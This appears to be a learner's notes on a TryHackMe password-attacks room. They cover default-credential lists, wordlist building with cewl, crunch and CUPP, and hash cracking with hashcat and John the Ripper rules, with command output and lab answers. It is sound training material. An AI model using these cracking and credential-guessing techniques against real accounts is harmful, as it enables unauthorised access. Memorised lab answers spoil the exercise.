

# Red Team password Attacks
> https://tryhackme.com/room/passwordattacks

- Password profiling
- Password attacks techniques
- Online password attacks

How secure are passwords?
Passwords are a protection method for accessing online accounts or computer systems. Passwords authentication methods are used to access personal and private systems, and its main goal of using the password is to keep it safe and not share it with others.

To answer the question: How secure are passwords? depends on various factors. Passwords are usually stored within the file system or database, and keeping them safe is essential. We've seen cases where companies store passwords into plaintext documents, such as the Sony breach in 2014. Therefore, once an attacker accesses the file system, he can easily obtain and reuse these passwords. On the other hand, others store passwords within the system using various techniques such as hashing functions or encryption algorithms to make them more secure. Even if the attacker has to access the system, it will be harder to crack. We will cover cracking hashes in the upcoming tasks.

references: https://www.techdirt.com/articles/20141204/12032329332/shocking-sony-learned-no-password-lessons-after-2011-psn-hack.shtml

## Password Attack Techniques

We will cover various techniques such as a dictionary, brute-force, rule-base, and guessing attacks. All the above techniques are considered active 'online' attacks where the attacker needs to communicate with the target machine to obtain the password in order to gain unauthorized access to the machine

- Password guessing is a technique used to target online protocols and services. Therefore, it's considered time-consuming and opens up the opportunity to generate logs for the failed login attempts. A password guessing attack conducted on a web-based system often requires a new request to be sent for each attempt, which can be easily detected. It may cause an account to be locked out if the system is designed and configured securely.
- Password cracking is a technique performed locally or on systems controlled by the attacker.


## Password Profiling #1 - Default, Weak, Leaked, Combined and Username Wordlists

Default Passwords

Before performing password attacks, it is worth trying a couple of default passwords against the targeted service. Manufacturers set default passwords with products and equipment such as switches, firewalls, routers. There are scenarios where customers don't change the default password, which makes the system vulnerable. Thus, it is a good practice to try out admin:admin, admin:123456, etc. If we know the target device, we can look up the default passwords and try them out. For example, suppose the target server is a Tomcat, a lightweight, open-source Java application server. In that case, there are a couple of possible default passwords we can try: admin:admin or tomcat:admin.

Here are some website lists that provide default passwords for various products.
- https://cirt.net/passwords
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

**Combined Wordlist**
```bash
cat file1.txt file2.txt file3.txt > combined_list.txt
#To clean up the generated combined list to remove duplicated words, we can use sort and uniq 
sort combined_list.txt | uniq -u > cleaned_combined_list.txt
```

**Customized Wordlist**

```bash
domain=https://clinic.thmredteam.com
cewl -w list.txt -d 5 -m 5 $domain
# -w will write the contents to a file. In this case, list.txt.
# -m 5 gathers strings (words) that are 5 characters or more
# -d 5 is the depth level of web crawling/spidering (default 2)
```


generated list
```
Medical
Elite
email
protected
Health
Research
Welcome
Doctors
THUMB
Oxytocin
Jason
Carlson
Paracetamol
Cortisol
About
Contact
appointment
Cardiology
Latest
March
February
providing
treatment
patient
doctors
SECTION
TITLE
commonly
January
stress
Select
point
Click
hospital
clinic
Template
tooplate
health
LOADER
HEADER
LINKS
Center
Staff
Pregnancy
Dental
Google
Share
FOOTER
Opening
Hours
Monday
Friday
Saturday
Sunday
Closed
Copyright
Laboratory
Tests
Departments
Insurance
Policy
Careers
SCRIPTS
Website
healthier
Healthy
Living
Exercise
regime
customised
Lifestyle
Balanced
right
nutrition
Benefits
Stories
ABOUT
safest
clinical
innovative
technology
experience
century
multidisciplinary
teams
surgeons
researchers
other
specialists
together
address
medicine
pressing
issues
convert
findings
novel
medicines
treatments
Tanisha
Hughes
President
Pierre
Pittman
Chief
Weronika
Burgess
Dario
Phillips
released
reaction
social
connections
stressful
situations
reliever
alleviate
aches
pains
referred
hormone
because
response
APPOINTMENT
CONTACT
Email
Department
General
Phone
Number
Additional
Message
Submit
Button
GOOGLE
change
location
choose
Embed
paste
within
field
below
affiliated
company
employs
based
medical
professionals
assist
establishing
maintaining
network
highly
qualified
physicians
committed
quality
tailored
specific
requirements
official
website
Medicalmedical
surgery
porttitor
lorem
iaculis
libero
justo
vitae
gravida
imperdiet
vestibulum
porta
neque
purus
commodo
posuere
molestie
semper
euismod
Phasellus
lectus
rutrum
vulputate
Vestibulum
vehicula
sodales
placerat
venenatis
risus
eleifend
ipsum
Fusce
dolor
augue
Amazing
Technology
Consultant
Topic
Clinic
thmredteam
Professional
ealth
DETAIL
Review
Annual
Aenean
Aliquam
finibus
egestas
interdum
condimentum
pellentesque
fringilla
congue
maximus
felis
volutpat
Morbi
tempor
Mauris
tincidunt
Maecenas
aliquam
Etiam
tellus
Vivamus
ligula
tortor
lobortis
Nullam
ornare
turpis
luctus
facilisis
Nulla
sapien
pulvinar
rhoncus
lacinia
dignissim
Suspendisse
metus
laoreet
auctor
article
Facebook
Twitter
author
Lorem
maecenas
voluptate
Recent
Posts
Introducing
healing
process
Categories
Sidebar
Banner
Social
pharetra
Curabitur
consequat
ultricies
Healing
Process
```

**Username Wordlists**
Gathering employees' names in the enumeration stage is essential. We can generate username lists from the target's website. For the following example, we'll assume we have a {first name} {last name} (ex: John Smith) and a method of generating usernames.

- {first name}: john
- {last name}: smith
- {first name}{last name}:  johnsmith 
- {last name}{first name}:  smithjohn  
- first letter of the {first name}{last name}: jsmith 
- first letter of the {last name}{first name}: sjohn  
- first letter of the {first name}.{last name}: j.smith 
- first letter of the {first name}-{last name}: j-smith 
- and so on

```bash
└─# git clone https://github.com/therodri2/username_generator.git
Cloning into 'username_generator'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 9 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), done.
                                                                                                                
┌──(root㉿kali)-[/tmp/pass]
└─# ls
list.txt  username_generator
                                                                                                                
┌──(root㉿kali)-[/tmp/pass]
└─# cd username_generator 
                                                                                                                
┌──(root㉿kali)-[/tmp/pass/username_generator]
└─# python3 username_generator.py -h
usage: username_generator.py [-h] -w wordlist [-u]
Python script to generate user lists for bruteforcing!

options:
  -h, --help            show this help message and exit
  -w wordlist, --wordlist wordlist
                        Specify path to the wordlist
  -u, --uppercase       Also produce uppercase permutations. Disabled by default
                                                                                                                
┌──(root㉿kali)-[/tmp/pass/username_generator]
└─# echo "John Smith" > users.lst

┌──(root㉿kali)-[/tmp/pass/username_generator]
└─# python3 username_generator.py -w users.lst
john
smith
j.smith
j-smith
j_smith
j+smith
jsmith
smithjohn
```
https://default-password.info/juniper/isg2000

## Password Profiling #2 - Keyspace technique and CUPP

```
└─# crunch -h

crunch version 3.6

Crunch can create a wordlist based on criteria you specify.  The output from crunch can be sent to the screen, file, or to another program.

Usage: crunch <min> <max> [options]
where min and max are numbers

Please refer to the man page for instructions and examples on how to use crunch.
┌──(root㉿kali)-[/tmp/pass/crunch]
└─# crunch 2 2 01234abcd -o crunch.txt
Crunch will now generate the following amount of data: 243 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 81 
crunch: 100% completed generating output

-> cat crunch.txt
00
01
02
03
04
0a
0b
0c
0d
10
.
.
.
cb
cc
cd
d0
d1
d2
d3
d4
da
db
dc
dd
```

It's worth noting that crunch can generate a very large text file depending on the word length and combination options you specify. The following command creates a list with an 8 character minimum and maximum length containing numbers 0-9, a-f lowercase letters, and A-F uppercase letters:

`crunch 8 8 0123456789abcdefABCDEF -o crunch.txt` the file generated is `459 GB` and contains `54,875,873,536` words

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:

- @ - lower case alpha characters
- , - upper case alpha characters
- % - numeric characters
- ^ - special characters including space

For example, if part of the password is known to us, and we know it starts with pass and follows two numbers, we can use the % symbol from above to match the numbers. Here we generate a wordlist that contains pass followed by 2 numbers:

```bash
user@thm$  crunch 6 6 -t pass%%
Crunch will now generate the following amount of data: 700 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100
pass00
pass01
pass02
pass03
```

CUPP - Common User Passwords Profiler

> git clone https://github.com/Mebus/cupp.git


Interactive mode
```
user@thm$  python3 cupp.py -i
 ___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: 
> Surname: 
> Nickname: 
> Birthdate (DDMMYYYY): 


> Partners) name:
> Partners) nickname:
> Partners) birthdate (DDMMYYYY):


> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name:
> Company name:


> Do you want to add some key words about the victim? Y/[N]:
> Do you want to add special chars at the end of words? Y/[N]:
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]:

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to .....txt, counting ..... words.
> Hyperspeed Print? (Y/n)

```

Pre created List
```
┌──(root㉿kali)-[/tmp/pass/cupp]
└─# python3 cupp.py -l

 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


        Choose the section you want to download:

     1   Moby            14      french          27      places
     2   afrikaans       15      german          28      polish
     3   american        16      hindi           29      random
     4   aussie          17      hungarian       30      religion
     5   chinese         18      italian         31      russian
     6   computer        19      japanese        32      science
     7   croatian        20      latin           33      spanish
     8   czech           21      literature      34      swahili
     9   danish          22      movieTV         35      swedish
    10   databases       23      music           36      turkish
    11   dictionaries    24      names           37      yiddish
    12   dutch           25      net             38      exit program
    13   finnish         26      norwegian       


        Files will be downloaded from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/ repository

        Tip: After downloading wordlist, you can improve it with -w option

> Enter number: 24
[+] Downloading dictionaries/names/ASSurnames.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/ASSurnames.gz ... 
[+] Downloading dictionaries/names/Congress.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/Congress.gz ... 
[+] Downloading dictionaries/names/Family-Names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/Family-Names.gz ... 
[+] Downloading dictionaries/names/Given-Names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/Given-Names.gz ... 
[+] Downloading dictionaries/names/actor-givenname.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/actor-givenname.gz ... 
[+] Downloading dictionaries/names/actor-surname.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/actor-surname.gz ... 
[+] Downloading dictionaries/names/cis-givenname.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/cis-givenname.gz ... 
[+] Downloading dictionaries/names/cis-surname.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/cis-surname.gz ... 
[+] Downloading dictionaries/names/crl-names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/crl-names.gz ... 
[+] Downloading dictionaries/names/famous.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/famous.gz ... 
[+] Downloading dictionaries/names/fast-names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/fast-names.gz ... 
[+] Downloading dictionaries/names/female-names-kantr.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/female-names-kantr.gz ... 
[+] Downloading dictionaries/names/female-names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/female-names.gz ... 
[+] Downloading dictionaries/names/givennames-ol.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/givennames-ol.gz ... 
[+] Downloading dictionaries/names/male-names-kantr.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/male-names-kantr.gz ... 
[+] Downloading dictionaries/names/male-names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/male-names.gz ... 
[+] Downloading dictionaries/names/movie-characters.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/movie-characters.gz ... 
[+] Downloading dictionaries/names/names.french.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/names.french.gz ... 
[+] Downloading dictionaries/names/names.hp.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/names.hp.gz ... 
[+] Downloading dictionaries/names/other-names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/other-names.gz ... 
[+] Downloading dictionaries/names/shakesp-names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/shakesp-names.gz ... 
[+] Downloading dictionaries/names/surnames-ol.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/surnames-ol.gz ... 
[+] Downloading dictionaries/names/surnames.finnish.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/surnames.finnish.gz ... 
[+] Downloading dictionaries/names/usenet-names.gz from http://ftp.funet.fi/pub/unix/security/passwd/crack/dictionaries/names/usenet-names.gz ... 
[+] files saved to dictionaries/names/
                                                                                                               
┌──(root㉿kali)-[/tmp/pass/cupp]
└─# ls
CHANGELOG.md  LICENSE  README.md  cupp.cfg  cupp.py  dictionaries  screenshots  test_cupp.py
└─# cd dictionaries         
└─# cd names       
┌──(root㉿kali)-[/tmp/pass/cupp/dictionaries/names]
└─# ls
ASSurnames.gz       actor-surname.gz  fast-names.gz          male-names.gz        shakesp-names.gz
Congress.gz         cis-givenname.gz  female-names-kantr.gz  movie-characters.gz  surnames-ol.gz
Family-Names.gz     cis-surname.gz    female-names.gz        names.french.gz      surnames.finnish.gz
Given-Names.gz      crl-names.gz      givennames-ol.gz       names.hp.gz          usenet-names.gz
actor-givenname.gz  famous.gz         male-names-kantr.gz    other-names.gz

```

Based on your interest, you can choose the wordlist from the list above to aid in generating wordlists for brute-forcing!

Finally, CUPP could also provide default usernames and passwords from the Alecto database by using the -a option. 

```
┌──(root㉿kali)-[/tmp/pass/cupp]
└─# python3 cupp.py -a

 ___________ 
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\   
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Checking if alectodb is not present...
[+] Downloading alectodb.csv.gz from https://github.com/yangbh/Hammer/raw/b0446396e8d67a7d4e53d6666026e078262e5bab/lib/cupp/alectodb.csv.gz ... 

[+] Exporting to alectodb-usernames.txt and alectodb-passwords.txt
[+] Done.

```


questions:
crunch 5 5 -t "THM@%" -o tryhackme.txt
crunch 5 5 -t “THM^%" -o tryhackme.txt
crunch 5 5 -t "THM^^" -o tryhackme.txt

## Offline Attacks - Dictionary and Bruteforce

**Dictionary attack**   

A dictionary attack is a technique used to guess passwords by using well-known words or phrases. The dictionary attack relies entirely on pre-gathered wordlists that were previously generated or found. It is important to choose or create the best candidate wordlist for your target in order to succeed in this attack. Let's explore performing a dictionary attack using what you've learned in the previous tasks about generating wordlists. We will showcase an offline dictionary attack using hashcat, which is a popular tool to crack hashes.

Let's say that we obtain the following hash `f806fc5a2a0d5ba2471600758452799c`, and want to perform a dictionary attack to crack it. First, we need to know the following at a minimum:

1- What type of hash is this?
2- What wordlist will we be using? Or what type of attack mode could we use?

To identify the type of hash, we could a tool such as hashid or hash-identifier. For this example, hash-identifier believed the possible hashing method is MD5. Please note the time to crack a hash will depend on the hardware you're using (CPU and/or GPU).

```bash
user@machine$ hashcat -a 0 -m 0 f806fc5a2a0d5ba2471600758452799c /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
f806fc5a2a0d5ba2471600758452799c:rockyou

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: f806fc5a2a0d5ba2471600758452799c
Time.Started.....: Mon Oct 11 08:20:50 2021 (0 secs)
Time.Estimated...: Mon Oct 11 08:20:50 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   114.1 kH/s (0.02ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40/40 (100.00%)
Rejected.........: 0/40 (0.00%)
Restore.Point....: 0/40 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> 123123

Started: Mon Oct 11 08:20:49 2021
Stopped: Mon Oct 11 08:20:52 2021

```

-a 0  sets the attack mode to a dictionary attack

-m 0  sets the hash mode for cracking MD5 hashes; for other types, run hashcat -h for a list of supported hashes.

f806fc5a2a0d5ba2471600758452799c this option could be a single hash like our example or a file that contains a hash or multiple hashes.

/usr/share/wordlists/rockyou.txt the wordlist/dictionary file for our attack

We run hashcat with --show option to show the cracked value if the hash has been cracked:

```bash
user@machine$ hashcat -a 0 -m 0 F806FC5A2A0D5BA2471600758452799C /usr/share/wordlists/rockyou.txt --show
f806fc5a2a0d5ba2471600758452799c:rockyou
```

**Brute-Force Attack**  

Brute-forcing is a common attack used by the attacker to gain unauthorized access to a personal account. This method is used to guess the victim's password by sending standard password combinations. The main difference between a dictionary and a brute-force attack is that a dictionary attack uses a wordlist that contains all possible passwords.

In contrast, a brute-force attack aims to try all combinations of a character or characters. For example, let's assume that we have a bank account to which we need unauthorized access. We know that the PIN contains 4 digits as a password. We can perform a brute-force attack that starts from **0000 to 9999** to guess the valid PIN based on this knowledge. In other cases, a sequence of numbers or letters can be added to existing words in a list, such as **admin0, admin1, .. admin9999**.

For instance, hashcat has charset options that could be used to generate your own combinations. The charsets can be found in hashcat help options.

```bash
user@machine$ hashcat --help
 ? | Charset
 ===+=========
  l | abcdefghijklmnopqrstuvwxyz
  u | ABCDEFGHIJKLMNOPQRSTUVWXYZ
  d | 0123456789
  h | 0123456789abcdef
  H | 0123456789ABCDEF
  s |  !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
  a | ?l?u?d?s
  b | 0x00 - 0xff

```
The following example shows how we can use hashcat with the brute-force attack mode with a combination of our choice. 

```bash
user@machine$ hashcat -a 3 ?d?d?d?d --stdout
1234
0234
2234
3234
9234
4234
5234
8234
7234
6234
..
..
```

-a 3  sets the attacking mode as a brute-force attack

?d?d?d?d the ?d tells hashcat to use a digit. In our case, ?d?d?d?d for four digits starting with 0000 and ending at 9999

--stdout print the result to the terminal

Now let's apply the same concept to crack the following MD5 hash: 05A5CF06982BA7892ED2A6D38FE832D6 a four-digit PIN number.

```
user@machine$ hashcat -a 3 -m 0 05A5CF06982BA7892ED2A6D38FE832D6 ?d?d?d?d
05a5cf06982ba7892ed2a6d38fe832d6:2021

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 05a5cf06982ba7892ed2a6d38fe832d6
Time.Started.....: Mon Oct 11 10:54:06 2021 (0 secs)
Time.Estimated...: Mon Oct 11 10:54:06 2021 (0 secs)
Guess.Mask.......: ?d?d?d?d [4]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 16253.6 kH/s (0.10ms) @ Accel:1024 Loops:10 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10000/10000 (100.00%)
Rejected.........: 0/10000 (0.00%)
Restore.Point....: 0/1000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-10 Iteration:0-10
Candidates.#1....: 1234 -> 6764

Started: Mon Oct 11 10:54:05 2021
Stopped: Mon Oct 11 10:54:08 2021
```

**TASKS**
Answer the questions below
Considering the following hash: **8d6e34f987851aa599257d3831a1af040886842f**. What is the hash type?
```bash
└─# hashcat 8d6e34f987851aa599257d3831a1af040886842f
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz, 1441/2946 MB (512 MB allocatable), 2MCU

The following 7 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    100 | SHA1                                                       | Raw Hash
   6000 | RIPEMD-160                                                 | Raw Hash
    170 | sha1(utf16le($pass))                                       | Raw Hash
   4700 | sha1(md5($pass))                                           | Raw Hash salted and/or iterated
  18500 | sha1(md5(md5($pass)))                                      | Raw Hash salted and/or iterated
   4500 | sha1(sha1($pass))                                          | Raw Hash salted and/or iterated
    300 | MySQL4.1/MySQL5                                            | Database Server

Please specify the hash-mode with -m [hash-mode].

Started: Thu Jan 18 02:13:14 2024
Stopped: Thu Jan 18 02:13:29 2024


ANSWER: SHA-1
```

Perform a dictionary attack against the following hash: 8d6e34f987851aa599257d3831a1af040886842f. What is the cracked value? Use rockyou.txt wordlist.

```bash
hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt


hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz, 1441/2946 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Initializing backend runtime for device #1. Please be patient...


Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 26 secs

8d6e34f987851aa599257d3831a1af040886842f:sunshine         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 100 (SHA1)
Hash.Target......: 8d6e34f987851aa599257d3831a1af040886842f
Time.Started.....: Thu Jan 18 02:21:43 2024 (0 secs)
Time.Estimated...: Thu Jan 18 02:21:43 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     8185 H/s (0.12ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 512/14344385 (0.00%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> letmein

Started: Thu Jan 18 02:20:34 2024
Stopped: Thu Jan 18 02:21:44 2024

```


Perform a brute-force attack against the following MD5 hash: e48e13207341b6bffb7fb1622282247b. What is the cracked value? Note the password is a 4 digit number: [0-9][0-9][0-9][0-9]

```bash
hashcat -m 0 -a 3 -o crackMD5.txt e48e13207341b6bffb7fb1622282247b ?d?d?d?d

hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-2676 v3 @ 2.40GHz, 1441/2946 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Brute-Force
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: e48e13207341b6bffb7fb1622282247b
Time.Started.....: Thu Jan 18 02:27:06 2024 (1 sec)
Time.Estimated...: Thu Jan 18 02:27:07 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: ?d?d?d?d [4]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    43780 H/s (0.15ms) @ Accel:256 Loops:10 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10000/10000 (100.00%)
Rejected.........: 0/10000 (0.00%)
Restore.Point....: 512/1000 (51.20%)
Restore.Sub.#1...: Salt:0 Amplifier:0-10 Iteration:0-10
Candidate.Engine.: Device Generator
Candidates.#1....: 1813 -> 6764

Started: Thu Jan 18 02:26:44 2024
Stopped: Thu Jan 18 02:27:08 2024
                                                                                                        
┌──(root㉿kali)-[~]
└─# cat crackMD5.txt 
e48e13207341b6bffb7fb1622282247b:1337
```
## Offline Attacks - Rule based

**Rule-Based attacks**
Rule-Based attacks are also known as hybrid attacks. Rule-Based attacks assume the attacker knows something about the password policy. Rules are applied to create passwords within the guidelines of the given password policy and should, in theory, only generate valid passwords. Using pre-existing wordlists may be useful when generating passwords that fit a policy — for example, manipulating or 'mangling' a password such as 'password': p@ssword, Pa$$word, Passw0rd, and so on.

For this attack, we can expand our wordlist using either hashcat or John the ripper. However, for this attack, let's see how John the ripper works. Usually, John the ripper has a config file that contains rule sets, which is located at /etc/john/john.conf or /opt/john/john.conf depending on your distro or how john was installed. You can read /etc/john/john.conf and look for List.Rules to see all the available rules:

```bash
user@machine$ cat /etc/john/john.conf|grep "List.Rules:" | cut -d"." -f3 | cut -d":" -f2 | cut -d"]" -f1 | awk NF
JumboSingle
o1
o2
i1
i2
o1
i1
o2
i2
best64
d3ad0ne
dive
InsidePro
T0XlC
rockyou-30000
specific
ShiftToggle
Split
Single
Extra
OldOffice
Single-Extra
Wordlist
ShiftToggle
Multiword
best64
Jumbo
KoreLogic
T9
```
We can see that we have many rules that are available for us to use. We will create a wordlist with only one password containing the string tryhackme, to see how we can expand the wordlist. Let's choose one of the rules, the best64 rule, which contains the best 64 built-in John rules, and see what it can do!

```
export PATH="$PATH:/usr/sbin:/sbin" 
user@machine$ john --wordlist=/tmp/single-password-list.txt --rules=best64 --stdout | wc -l
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
76p 0:00:00:00 100.00% (2021-10-11 13:42) 1266p/s pordpo
76

```
--wordlist= to specify the wordlist or dictionary file. 

--rules to specify which rule or rules to use.

--stdout to print the output to the terminal.

|wc -l  to count how many lines John produced.


**Custom Rules**
John the ripper has a lot to offer. For instance, we can build our own rule(s) and use it at run time while john is cracking the hash or use the rule to build a custom wordlist!

Let's say we wanted to create a custom wordlist from a pre-existing dictionary with custom modification to the original dictionary. The goal is to add special characters (ex: !@#$*&) to the beginning of each word and add numbers 0-9 at the end. The format will be as follows:

[symbols]word[0-9]

We can add our rule to the end of john.conf:
```bash
user@machine$ sudo vi /etc/john/john.conf 
[List.Rules:THM-Password-Attacks] 
Az"[0-9]" ^[!@#$]
```

[List.Rules:THM-Password-Attacks]  specify the rule name THM-Password-Attacks.

Az represents a single word from the original wordlist/dictionary using -p.

"[0-9]" append a single digit (from 0 to 9) to the end of the word. For two digits, we can add "[0-9][0-9]"  and so on.  

^[!@#$] add a special character at the beginning of each word. ^ means the beginning of the line/word. Note, changing ^ to $ will append the special characters to the end of the line/word.

Now let's create a file containing a single word password to see how we can expand our wordlist using this rule.


```bash
user@machine$ echo "password" > /tmp/single.lst
# We include the name of the rule we created in the John command using the --rules option. We also need to show the result in the terminal. We can do this by using --stdout as follows:
user@machine$ john --wordlist=/tmp/single.lst --rules=THM-Password-Attacks --stdout 
Using default input encoding: UTF-8 
!password0 
@password0 
#password0 
$password0

```

**TASK**
What syntax would you use to create a rule to produce the following: "S[Word]NN  where N is Number and S is a symbol of !@? 

```
az"[0-9][0-9]" ^[!@]
```


## 


**TASK**
```
└─# export rhost=10.10.69.35           
                                                                                                        
┌──(root㉿kali)-[~]
└─# ftp $rhost
Connected to 10.10.69.35.
